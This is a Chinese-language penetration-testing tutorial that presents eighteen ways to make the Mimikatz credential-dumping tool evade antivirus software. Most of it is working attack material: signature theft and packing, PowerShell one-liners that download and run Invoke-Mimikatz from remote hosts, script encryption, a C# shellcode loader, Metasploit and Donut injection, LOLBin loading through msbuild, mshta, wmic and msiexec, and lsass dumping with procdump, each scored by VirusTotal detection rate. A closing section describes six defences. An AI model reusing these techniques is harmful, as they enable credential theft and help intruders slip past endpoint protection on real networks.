[toc]

# 0x00 前言

Mimikatz是法国人`Benjamin Delpy`编写的一款轻量级的调试工具，理论上可以抓取所有windows系统的明文密码（winxp之前的好像不行），因此在内网渗透过程中应用非常广，属于内网渗透必备工具之一，被很多人称之为密码抓取神器。Mimikatz其实并不只有抓取口令这个功能，它还能够创建票证、票证传递、hash传递、甚至伪造域管理凭证令牌等诸多功能。由于mimikatz的使用说明网上资料很多，本文主要是介绍一下mimikatz的一些免杀方式。

随着这两年hw行动越来越多，企事业单位也都开始注重内网安全，有预算的会上全套的终端安全、企业版杀软或者EDR，就算没有预算的也会装个360全家桶或者主机卫士之类的，这也导致很多时候你的mimikatz可能都没法拷贝过去或者没有加载执行，拿了台服务器却横向移不动就尴尬了。

之前写了[远控免杀系列的文章](https://github.com/TideSec/BypassAntiVirus)，学习到一些比较好玩的免杀姿势，又从网上找到了一些针对mimikatz的免杀技巧，于是就有了这篇mimikatz免杀的文章。

本文所用到的相关工具和代码都已经打包：`https://github.com/TideSec/BypassAntiVirus/tree/master/tools/`

# 0x02 免杀介绍

在[远控免杀专题(1)-基础篇](https://mp.weixin.qq.com/s/3LZ_cj2gDC1bQATxqBfweg)中就已经大体介绍了一些常见的免杀方式，而针对Mimikatz的免杀更多样化，因为Mimiktaz本身是开源的，对源码或者对exe都可以进行免杀处理。本文主要介绍了如下5类免杀方式，共18种免杀方法。

本文虽然是针对Mimiktaz进行免杀，但更多的是想研究学习一下比较通用的exe的免杀方式，比如文中介绍的exe通用加载器、powershell执行exe、白名单加载exe等有几种方法可以适用于任意的exe免杀，如果只是针对mimikatz进行免杀完全没必要这么啰嗦的。

- **1、源码免杀。**
在有源码的情况下，可以定位特征码、加花指令、多层跳转、加无效指令、替换api、重写api、API伪调用等等，这部分内容较多略复杂，打算另写一篇进行介绍，本文不多介绍。

- **2、无源码免杀**
在源码不好修改需要对exe进行免杀时，可以加资源、替换资源、加壳、加签名、PE优化、增加节数据等等。本文中的方法1就是这种方式，只不过算是最简单的一种。

- **3、powershell免杀**
因为mimikatz有powershell版或者使用powershell可以加载，所以对powershell的脚本免杀也是一种方式，本文中的方法2-方法6都是对powershell进行处理。

- **4、加载器分离免杀**
加载器就是利用了ShellCode和PE分离的方式来达到免杀的效果，在远控免杀专题中介绍过不少很好用的加载器，不过很多只能加载基于RAW格式或固定格式的shellcode，对exe程序就无能无力了。所以这次针对mimikatz，专门找了几个比较通用的exe加载器，将exe转换成bin文件即可进行加载，没有格式限制，方法7到方法10就是介绍的这类免杀。

- **5、白名单免杀**
白名单主要是使用了rundll32、msbuild、mshta、cscript等多个白名单程序来加载嵌入了mimikatz的jscript脚本，这部分没有太多亮点，和之前写的[远控免杀专题白名单篇](https://mp.weixin.qq.com/s/2bC5otYgIgGnod-cXwkfqw)基本相似。部分白名单加载方法借鉴了`R1ngk3y`的文章[九种姿势运行Mimikatz](https://cloud.tencent.com/developer/article/1171183)。

# 0x03 mimikatz免杀实践

## 方法0-原生态mimikatz.exe(VT查杀率55/71)

先测一下原生态的mimikatz在`virustotal.com`上的查杀率，以此来衡量其他的免杀效果。

可以从`https://github.com/gentilkiwi/mimikatz/releases`下载最新的mimikatz，最新版本为2.2.0(20200308)，我这里都是以64位mimiktaz为例进行测试。



开启360防护时会拦截



`virustotal.com`上查杀率为55/71。



## 方法1-加壳+签名+资源替换(VT查杀率9/70)

这里先介绍一种比较常见的pe免杀方法，就是替换资源+加壳+签名，有能力的还可以pe修改，而且mimikatz是开源的，针对源码进行免杀处理效果会更好，这里不多做讨论。

需要几个软件，VMProtect Ultimate 3.4.0加壳软件，下载链接: `https://pan.baidu.com/s/1VXaZgZ1YlVQW9P3B_ciChg` 提取码: emnq

签名软件`https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/sigthief.py`

资源替换软件ResHacker：`https://github.com/TideSec/BypassAntiVirus/blob/master/tools/mimikatz/ResHacker.zip`

先替换资源，使用ResHacker打开mimikatz.exe，然后在图标里替换为360图标，version里面文字自己随意更改。



安装vmp加壳软件后，使用vmp进行加壳



使用`sigthief.py`对上一步生成的exe文件进行签名。sigthief的详细用法可以参考`https://github.com/secretsquirrel/SigThief`。


然后看看能不能运行，360和火绒都没问题。



VT平台上`mimikatz32_360.exe`文件查杀率9/70，缺点就是vmp加壳后会变得比较大。



## 方法2-Invoke-Mimikatz(VT查杀率39/58)

当exe文件执行被拦截时，最常想到的就是使用PowerSploit中的`Invoke-Mimikatz.ps1`了。它虽然是powershell格式，但由于知名度太高，目前也是被查杀的惨不忍睹了。

可以去PowerSploit下载，也可以下载我打包的：
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-Mimikatz.ps1
```

将`Invoke-Mimikatz.ps1`放在测试机上，本地执行
```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -exec bypass "import-module c:\test\Invoke-Mimikatz.ps1;Invoke-Mimikatz"
```

杀软会行为拦截，`Invoke-Mimikatz.ps1`脚本也会被查杀。



powershell脚本更方便的是可以进行远程加载

```
powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```

不过由于`raw.githubusercontent.com`经常访问受限，所以可能会出现这种提示



所以，最后是把相关代码放在自己的vps上，我就直接放我的内网另外的pc上了。

powershell依旧会被360行为拦截。



对可以尝试直使用下面的bypass方式，来自团队诺言大佬的文章[内网渗透-windows持久性后门](https://mp.weixin.qq.com/s/iFzYsWiWneAE_zGGZo7Miw)
```
powershell.exe -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal -w Normal "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
```

不会触发powershell下载行为预警。



`virustotal.com`上`Invoke-Mimikatz.ps1`脚本查杀率为39/58。




## 方法3-使用Out-EncryptedScript加密(VT查杀率0/60)

参考`https://www.jianshu.com/p/ed5074f8584b`

Powersploit中提供的很多工具都是做过加密处理的，同时也提供了一些用来加密处理的脚本，Out-EncryptedScript就是其中之一。

首先在本地对Invoke-Mimikatz.ps1进行加密处理：

先下载`Out-EncryptedScript.ps1`脚本，下载地址：
`https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1`

在自己的电脑上依次执行
```
powershell.exe 
Import-Module .\Out-EncryptedScript.ps1
Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password tidesec -Salt 123456
```
默认会生成的`evil.ps1`文件。
其中两个参数：
-Password   设置加密的密钥
-Salt       随机数，防止被暴力破解



将加密生成的`evil.ps1`脚本放在目标机上，执行如下命令：

```
powershell.exe 
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")

[String] $cmd = Get-Content .\evil.ps1
Invoke-Expression $cmd
$decrypted = de tidesec 123456
Invoke-Expression $decrypted
Invoke-Mimikatz
```
对`evil.ps1`文件进行查杀



`virustotal.com`上`evil.ps1`文件查杀率为0/60。



## 方法4-使用xencrypt加密(VT查杀率2/59)

该方法主要是使用工具对powershell脚本进行加密并采用Gzip/DEFLATE来绕过杀软。

工具地址`https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/xencrypt.ps1`

下载`Invoke-Mimikatz.ps1`
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-Mimikatz.ps1
```
将`xencrypt.ps1`也放在同一目录

在powershell中执行
```
Import-Module ./xencrypt.ps1
Invoke-Xencrypt -InFile .\Invoke-Mimikatz.ps1 -OutFile mimi.ps1 -Iterations 88
```


生成`mimi.ps1`

执行
```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -exec bypass "import-module c:\test\mimi.ps1;Invoke-Mimikatz"
```





`virustotal.com`上`mimi.ps1`文件查杀率为2/59。



## 方法5-PowerShell嵌入EXE文件(VT查杀率15/58)

这个方法其实只是将exe程序转为字符串，然后嵌入到`Invoke-ReflectivePEInjection.ps1`中直接执行。参考`https://www.freebuf.com/articles/terminal/99631.html`

将下面代码保存为`Convert-BinaryToString.ps1`
```
function Convert-BinaryToString {
   [CmdletBinding()] param (
      [string] $FilePath
   )
   try {
      $ByteArray = [System.IO.File]::ReadAllBytes($FilePath);
   }
   catch {
      throw "Failed to read file. Ensure that you have permission to the file, and that the file path is correct.";
   }
   if ($ByteArray) {
      $Base64String = [System.Convert]::ToBase64String($ByteArray);
   }
   else {
      throw '$ByteArray is $null.';
   }
   Write-Output -InputObject $Base64String 
}
```
执行`powershell import-module .\Convert-BinaryToString.ps1 ; Convert-BinaryToString .\mimikatz.exe >>1.txt`

下载`Invoke-ReflectivePEInjection.ps1`，这个是`Empire`里的，可以使用`PEUrl`参数。
`https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-ReflectivePEInjection.ps1`

新建一个`payload.ps1`，内容如下，需要替换里面1.txt的内容和`Invoke-ReflectivePEInjection`内容。

```
# Your base64 encoded binary
$InputString = '...........'  #上面1.txt的内容
function Invoke-ReflectivePEInjection  #Invoke-ReflectivePEInjection的内容
{
   ......
   ......
   ......
}
# Convert base64 string to byte array
$PEBytes = [System.Convert]::FromBase64String($InputString)
# Run EXE in memory
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"
```

然后在目标机器执行`powershell -ExecutionPolicy Bypass -File payload.ps1`即可。



打开杀软发现静态查杀都过不了，其实这个也正常，`Invoke-ReflectivePEInjection`这个知名度太高了。



如果保错`PE platform doesn't match the architecture of the process it is being loaded in (32/64bit)`

说明使用32位的powershell才行`%windir%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File payload.ps1`

`virustotal.com`上`payload.ps1`文件查杀率为15/58。




## 方法6-C程序中执行powershell(VT查杀率7/71)

这个执行方式也是比较简单，在C代码里执行powershell。

先借用`Invoke-Mimikatz.ps1`

```
powershell $c2='IEX (New-Object Net.WebClient).Downlo';$c3='adString(''http://10.211.55.2/mimikatz/Invoke-Mimikatz.ps1'')'; $Text=$c2+$c3; IEX(-join $Text);Invoke-Mimikatz
```

使用c语言的system函数去执行powershell。

```
#include<stdio.h>
#include<stdlib.h>
int main(){
system("powershell $c2='IEX (New-Object Net.WebClient).Downlo';$c3='adString(''http://10.211.55.2/mimikatz/Invoke-Mimikatz.ps1'')'; $Text=$c2+$c3; IEX(-join $Text);Invoke-Mimikatz");
return 0;
}
```


编译为exe文件，达到免杀的目的。但在运行该exe时，会触发360报警。



`virustotal.com`上`Project1.exe`文件查杀率为7/71。



## 方法7-使用加载器pe_to_shellcode(VT查杀率47/70)

下载`https://github.com/hasherezade/pe_to_shellcode`

将mimikatz.exe转化为shellcode
`pe2shc.exe mimikatz.exe mimi.txt`

加载`runshc64.exe mimi.txt`



`virustotal.com`上`mimi.txt`文件查杀率为47/70，额，看来这个已经被列入黑名单了。




## 方法8-c#加载shellcode(VT查杀率21/57)

参考`远控免杀专题(38)-白名单Rundll32.exe执行payload(VT免杀率22-58)`[https://mp.weixin.qq.com/s/rmC4AWC6HmcphozfEZhRGA](https://mp.weixin.qq.com/s/rmC4AWC6HmcphozfEZhRGA)

先使用上面介绍的pe_to_shellcode方法，把mimikatz.exe转换为mimi.txt

然后使用`bin2hex.exe`将mimi.txt转换为16进制文件，`bin2hex.exe`可在这里下载到`https://github.com/TideSec/BypassAntiVirus/blob/master/tools/bin2hex.exe`

```
bin2hex.exe --i mimi.txt --o mimi2.txt
```


在vs2017中创建C#的Console工程，把mimi2.txt中的16进制放到下面代码中的`MsfPayload`中。

```
using System;
using System.Threading;
using System.Runtime.InteropServices;
namespace MSFWrapper
{
    public class Program
    {
        public Program()
        {
            RunMSF();
        }
        public static void RunMSF()
        {
            byte[] MsfPayload =  {
0x4D, 0x5A, 0x45, 0x52, 0xE8, 0x00, 0x00, 0x00, 0x00, 0x5B, 0x48, 0x83, 
0x41, 0x59, 0x41, 0x58, 0x41, 0x5C, 0x5F, 0x5E, 0x5B, 0xC2, 0x04, 0x00 };

            IntPtr returnAddr = VirtualAlloc((IntPtr)0, (uint)Math.Max(MsfPayload.Length, 0x1000), 0x3000, 0x40);
            Marshal.Copy(MsfPayload, 0, returnAddr, MsfPayload.Length);
            CreateThread((IntPtr)0, 0, returnAddr, (IntPtr)0, 0, (IntPtr)0);
            Thread.Sleep(2000);
        }
        public static void Main()
        {
        }
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```

编译生成exe文件。



然后使用`DotNetToJScript`把csharp文件转为js
```
DotNetToJScript.exe -l=JScript -o=mimikatz.js -c=MSFWrapper.Program ConsoleApp1.exe
```

使用`cscript.exe mimikatz.js`进行执行。



`virustotal.com`上`mimi.txt`文件查杀率为21/57。




## 方法9-Donut执行mimikatz(VT查杀率29/71)

先使用donut把mimiktaz.exe转为bin文件。

```
donut.exe -f mimikatz.exe -o mimi.bin
```


将mimi.bin作base64编码并保存在剪贴板，powershell命令如下：
```
$filename = "mimi.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
```

把base64编码复制到DonutTest工程中。



编译生成exe。

在注入进程时，发现注入到notepad.exe中无法执行，但注入到powershell中可以执行。



但是发现仍被查杀。



VT查杀率29/71，怎一个惨字了得。



## 方法10-msf加载bin(VT查杀率2/59)

Donut下载`https://github.com/TheWover/donut`

下载`shellcode_inject.rb`代码`https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/shellcode_inject.rb`

1、首先使用Donut对需要执行的文件进行shellcode生成,这里对mimi进行shellcode生成,生成bin文件,等下会用到。

```
donut.exe -f mimikatz.exe -a 2 -o mimi.bin
```



windows下的0.9.3版本的donut没能生成，于是使用了0.9.2版本。

kali下的0.9.3可正常使用。

2、将上面的`shellcode_inject.rb`放入`/opt/metasploit-framework/embedded/framework/modules/post/windows/manage`下(实际路径可能不同,也就是metasploit-framework的上级路径,根据实际情况调整),然后进入msf,reload_all同时载入所有模块。


kali里是在目录`/usr/share/metasploit-framework/modules/post/windows/manage/`

mac下是在`/opt/metasploit-framework/embedded/framework/modules/post/windows/manage`






3、使用之前载入的shellcode_inject注入模块,这里是获取session后的操作了,session先自己上线再进行以下操作       
```
use post/windows/manage/shellcode_inject
set session 2
set shellcode /tmp/payload.bin 
run
```
最后成功加载了mimi,使用shellcode注入执行,有更强的隐蔽性。



VT平台上`mimi.bin`文件查杀率2/59，卡巴斯基这都能查杀...




## 方法11-用C#加载mimikatz(VT查杀率35/73)

参考`https://www.jianshu.com/p/12242d82b2df`

参考`远控免杀专题(29)-C#加载shellcode免杀-5种方式(VT免杀率8-70)`：[https://mp.weixin.qq.com/s/Kvhfb13d2_D6m-Bu9Darog](https://mp.weixin.qq.com/s/Kvhfb13d2_D6m-Bu9Darog)

下载
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/katz.cs
```
将katz.cs放置`C:\Windows\Microsoft.NET\Framework\v2.0.50727`
先powoershell执行
```
$key = 'BwIAAAAkAABSU0EyAAQAAAEAAQBhXtvkSeH85E31z64cAX+X2PWGc6DHP9VaoD13CljtYau9SesUzKVLJdHphY5ppg5clHIGaL7nZbp6qukLH0lLEq/vW979GWzVAgSZaGVCFpuk6p1y69cSr3STlzljJrY76JIjeS4+RhbdWHp99y8QhwRllOC0qu/WxZaffHS2te/PKzIiTuFfcP46qxQoLR8s3QZhAJBnn9TGJkbix8MTgEt7hD1DC2hXv7dKaC531ZWqGXB54OnuvFbD5P2t+vyvZuHNmAy3pX0BDXqwEfoZZ+hiIk1YUDSNOE79zwnpVP1+BN0PK5QCPCS+6zujfRlQpJ+nfHLLicweJ9uT7OG3g/P+JpXGN0/+Hitolufo7Ucjh+WvZAU//dzrGny5stQtTmLxdhZbOsNDJpsqnzwEUfL5+o8OhujBHDm/ZQ0361mVsSVWrmgDPKHGGRx+7FbdgpBEq3m15/4zzg343V9NBwt1+qZU+TSVPU0wRvkWiZRerjmDdehJIboWsx4V8aiWx8FPPngEmNz89tBAQ8zbIrJFfmtYnj1fFmkNu3lglOefcacyYEHPX/tqcBuBIg/cpcDHps/6SGCCciX3tufnEeDMAQjmLku8X4zHcgJx6FpVK7qeEuvyV0OGKvNor9b/WKQHIHjkzG+z6nWHMoMYV5VMTZ0jLM5aZQ6ypwmFZaNmtL6KDzKv8L1YN2TkKjXEoWulXNliBpelsSJyuICplrCTPGGSxPGihT3rpZ9tbLZUefrFnLNiHfVjNi53Yg4='
$Content = [System.Convert]::FromBase64String($key)
Set-Content  key.snk -Value $Content -Encoding Byte
```
再cmd执行
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /r:System.EnterpriseServices.dll /out:katz.exe /keyfile:key.snk /unsafe katz.cs

C:\Windows\Microsoft.NET\Framework\v2.0.50727\regsvcs.exe katz.exe
```

运行时需要管理员权限，而且360会拦截



放行后可正常执行



`virustotal.com`上`katz.exe`查杀率为35/73，略惨。




## 方法12-JS加载mimikatz(VT查杀率22/59)

参考`远控免杀专题(38)-白名单Rundll32.exe执行payload(VT免杀率22-58)`：[https://mp.weixin.qq.com/s/rmC4AWC6HmcphozfEZhRGA](https://mp.weixin.qq.com/s/rmC4AWC6HmcphozfEZhRGA)


这个是大佬已经做好的payload，可以直接进行使用。

用DotNetToJScript实现
```
https://github.com/tyranid/DotNetToJScript
```
mimikatz
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/mimikatz.js
```

执行`cscript mimikatz.js`，360会拦截。



放行后可正常执行



`virustotal.com`上`mimikatz.js`查杀率为22/59。



## 方法13-msiexec加载mimikatz(VT查杀率25/60)

参考`远控免杀专题(35)-白名单Msiexec.exe执行payload(VT免杀率27-60)`：[https://mp.weixin.qq.com/s/XPrBK1Yh5ggO-PeK85mqcg](https://mp.weixin.qq.com/s/XPrBK1Yh5ggO-PeK85mqcg)

使用`Advanced Installer`生成msi文件。

远程执行
```
msiexec.exe /passive /i https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/mimikatz.msi /norestart
```


本地执行
```
msiexec /passive /i Mimikatz.msi
```



`virustotal.com`上`mimikatz.msi`查杀率为25/60。



## 方法14-白名单msbuild.exe加载(VT查杀率4/59)

可参考之前的远控免杀专题(34)-白名单MSBuild.exe执行payload(VT免杀率4-57)：[https://mp.weixin.qq.com/s/1WEglPXm1Q5n6T-c4OhhXA](https://mp.weixin.qq.com/s/1WEglPXm1Q5n6T-c4OhhXA)

下载mimikatz.xml
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/executes-mimikatz.xml
```
执行
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe executes-mimikatz.xml
```
火绒会预警，360不会



`virustotal.com`上`executes-mimikatz.xml`查杀率为4/59。



## 方法15-JScript的xsl版(VT查杀率7/60)

下载
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/mimikatz.xsl
```
本地加载
```
wmic os get /format:"mimikatz.xsl"
```
远程加载
```
wmic os get /format:"https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/mimikatz.xsl"
```


放行后


`virustotal.com`上`mimikatz.xsl`查杀率为7/60。



## 方法16-jscript的sct版(VT查杀率23/59)

参考远控免杀专题(37)-白名单Mshta.exe执行payload(VT免杀率26-58)：[https://mp.weixin.qq.com/s/oBr-syv2ef5IjeGFrs7sHg](https://mp.weixin.qq.com/s/oBr-syv2ef5IjeGFrs7sHg)

下载
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/mimikatz.sct
```
执行
```
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/mimikatz.sct").Exec(); log coffee exit
```

360拦截依旧



`virustotal.com`上`mimikatz.sct`查杀率为23/59。




## 方法17-ReflectivePEInjection加载(VT查杀率32/57)

ReflectivePEInjection是powersploit里的比较有名的一个pe加载脚本，很好使。

下载
```
https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-ReflectivePEInjection.ps1
```
执行
```
powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl "http://10.211.55.2/mimikatz/x64/mimikatz.exe" -ExeArgs "sekurlsa::logonpasswords" -ForceASLR
```



这个用什么来衡量免杀都不太合适，我就用`Invoke-ReflectivePEInjection.ps1`吧。在`virustotal.com`上`Invoke-ReflectivePEInjection.ps1`查杀率为32/57。



## 方法18-导出lsass进程离线读密码(VT查杀率0/72)

windows有多款官方工具可以导出lsass进程的内存数据，比如`procdump.exe`、`SqlDumper.exe`、`Out-Minidump.ps1`等，我这里以`procdump.exe`为例进行演示。

`procdump.exe`工具是微软出品的工具，具有一定免杀效果。可以利用procdump把lsass进程的内存文件导出本地，再在本地利用mimikatz读取密码。

`procdump.exe`下载`https://github.com/TideSec/BypassAntiVirus/tree/master/tools/mimikatz/procdump.exe`

在目标机器执行下面命令，导出lsass.dmp
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp 
```

再使用mimikatz读取密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
需要注意的是从目标机器导出的lsass.dmp需要在相同系统下运行。



在`virustotal.com`上`procdump.exe`查杀率为0/72，不过这种读取lsass的行为早就被各大杀软拦截了，所以这种静态查杀没有太大参考价值。



我们团队的`诺言`大佬写过一篇可绕过卡巴斯基获取hash的方法，可以看这个`https://mp.weixin.qq.com/s/WLP1soWz-_BEouMxTHLbzg`。

# 0x04 防御mimikatz的6种方法

由于mimikatz工具太厉害，横向移动必备神器，所以针对mimikatz的加固方法也有不少，这里简单介绍几种。

## 方法1-WDigest禁用缓存

WDigest.dll是在Windows XP操作系统中引入的，当时这个协议设计出来是把明文密码存在lsass里为了http认证的。WDigest的问题是它将密码存储在内存中，并且无论是否使用它，都会将其存储在内存中。

默认在win2008之前是默认启用的。但是在win2008之后的系统上，默认是关闭的。如果在win2008之前的系统上打了KB2871997补丁，那么就可以去启用或者禁用WDigest。

KB2871997补丁下载地址：
```
Windows 7 x86 https://download.microsoft.com/download/9/8/7/9870AA0C-BA2F-4FD0-8F1C-F469CCA2C3FD/Windows6.1-KB2871997-v2-x86.msu

Windows 7 x64 https://download.microsoft.com/download/C/7/7/C77BDB45-54E4-485E-82EB-2F424113AA12/Windows6.1-KB2871997-v2-x64.msu

Windows Server 2008 R2 x64 Edition https://download.microsoft.com/download/E/E/6/EE61BDFF-E2EA-41A9-AC03-CEBC88972337/Windows6.1-KB2871997-v2-x64.msu
```

启用或者禁用WDigest修改注册表位置:

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest`

`UseLogonCredential` 值设置为 0, WDigest不把凭证缓存在内存，mimiktaz抓不到明文；
`UseLogonCredential` 值设置为 1, WDigest把凭证缓存在内存，mimiktaz可以获取到明文。

在注册表中将`UseLogonCredential` 值设置为 0，或者使用命令
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```



我们可以通过如下命令来测试修改是否生效：

`reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`

如果成功，系统应该会返回如下内容：



注销后重新登录，发现mimikatz已经无法获取明文密码。




## 方法2-Debug 权限

Mimikatz在获取密码时需要有本地管理员权限，因为它需要与lsass进程所交互，需要有调试权限来调试进程，默认情况下本地管理员拥有调试权限，但是这个权限一般情况是很少用得到的，所以可以通过关闭debug权限的方法来防范Mimikatz。



删除上图的administrators组，这样管理员也没了debug权限。

注销后再执行mimiktaz，获取debug权限时发现报错。



## 方法3-LSA 保护

自Windows 8.1 开始为LSA提供了额外的保护（LSA Protection），以防止读取内存和不受保护的进程注入代码。保护模式要求所有加载到LSA的插件都必须使用Microsoft签名进行数字签名。 在LSA Protection保护模式下，mimikatz运行 sekurlsa::logonpasswords抓取密码会报错。

可以通过注册表开启LSA Protection，注册表位置：
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`
新建-DWORD（32）值，名称为 `RunAsPPL`,数值为 00000001，然后重启系统生效。

或者使用命令来完成
```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "RunAsPPL" /t REG_DWORD /d "00000001" /f
```


重启后再执行mimikatz.exe，发现已经无法获取密码。



此时其实可以从磁盘上的SAM读取凭据，执行
```
mimikatz # privilege::debug
mimikatz # token::whoami
mimikatz # token::elevate
mimikatz # lsadump::sam
```


## 方法4-受限制的管理模式

对于 Windows 2012 R2 和 Windows 8.1 之前的旧操作系统，需要先安装补丁KB2871997。 

先在 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`	设置RunAsPPL为1
然后在 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` 设置 `DisableRestrictedAdmin`为0 , `DisableRestrictedAdminOutboundCreds`为1。

然后需要在域中强制执行“对远程服务器的凭据限制委派”策略,以确保所有出站RDP会话都使用“RestrictedAdmin”模式,因此才不会泄露凭据。 

具体位置是组策略：计算机配置--管理模板--系统--凭据分配--限制向远程服务器分配凭据，选择已启用，但是我的环境里选项一栏中没有看到`Require Restricted Admin`。



在执行 lsadump::cache时报错，ERROR kuhl_m_lsadump_secrets0rCache:kull_m_registry_RegOpenKeyEx (SECURITY) 0x00000005
该错误，是注册表增加了LSA保护所起到的。



## 方法5-禁用凭证缓存

Domain Cached Credentials 简称 DDC，也叫 mscache。有两个版本，XP/2003 年代的叫第一代，Vasta/2008 之后的是第二代。如果域控制器不可用，那么windows将检查缓存的最后一个密码hash值，这样为以后系统对用户进行身份验证。缓存位置如下：
```
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

在组策略中设置禁用缓存

```
计算机配置--windows设置--安全设置--本地策略--安全选项 交互式登录：之前登录到缓存的次数（域控制器不可用时） 默认是10，设置为0
```


注销后再次执行mimikatz，没有读取到任何用户数据。




## 方法6-受保护的用户组

WindowsServer 2012及更高版本使用了引入了一个名为“Protected Users”的新安全组，其他系统需要安装 KB2871997 补丁才会有。

此组使域管理员能够保护本地管理员等有权限的用户,因为属于该组的任何帐户只能通过Kerberos对域进行身份验证。 

这将有助于防止NTLS密码哈希值或LSAS中的纯文本凭据泄露给敏感帐户,这些帐户通常是攻击者的目标。

可以在“Active Directory用户和计算机”中找到“Protected Users”安全组。



在配置之前，使用mimikatz可读取明文密码。



可以通过执行以下PowerShell命令将帐户添加到“受保护的用户”组中:

```
Add-ADGroupMember –Identity 'Protected Users' –Members administrator
```



注销后再次执行mimikatz，已经看不到administrator用户的密码了。



# 0x05 小结

通过对mimikatz免杀的研究，也算是对之前的远控免杀专题文章进行了重温和实践，整理了几种能适用于任意exe文件的免杀方法，最起码以后看到杀软不会那么咬牙切齿了。

1、源码级免杀应该是效果比较好的，不过对编程能力、免杀经验要求比较高，不少大佬手头上都有私藏定制的全免杀的mimikatz，很多都是通过源码处理后再编译来免杀的。

2、通过修改资源、签名、pe优化修改等方式相对简单一些，不过免杀效果也差了一些，很多时候静态查杀能过，但行为查杀就废了。

3、针对powershell来加载或执行mimikatz时，免杀主要针对powershell脚本，免杀效果也很好，不过你在目标机器上怎么执行powershell而不触发杀软行为检测是个问题。

4、加载器的免杀效果整体算不错，当然donut是个例外，因为他开源而且知名度比较高，里面特征码被查杀的太厉害，如果稍微修改下源码再编译应该会好很多。

5、白名单执行大部分还是使用了将C#程序转为js的方法，静态免杀效果还不错，但白名单最尴尬的是远程调用时杀软都会拦截报警，在2008服务器上你用webshell调用任意程序最新的360都会拦截。


# 0x06 参考资料

防御mimikatz抓取密码的方法:`https://zhuanlan.zhihu.com/p/59337564`

Bypass LSA Protection：`https://xz.aliyun.com/t/6943`

防御Mimikatz攻击的方法介:`https://www.freebuf.com/articles/network/180869.html`

九种姿势运行Mimikatz：`https://cloud.tencent.com/developer/article/1171183`

Mimikatz的多种攻击方式以及防御方式：`http://blog.itpub.net/69946337/viewspace-2658825/`

简单几步搞定Mimikatz无文件+免杀：`https://www.jianshu.com/p/ed5074f8584b`
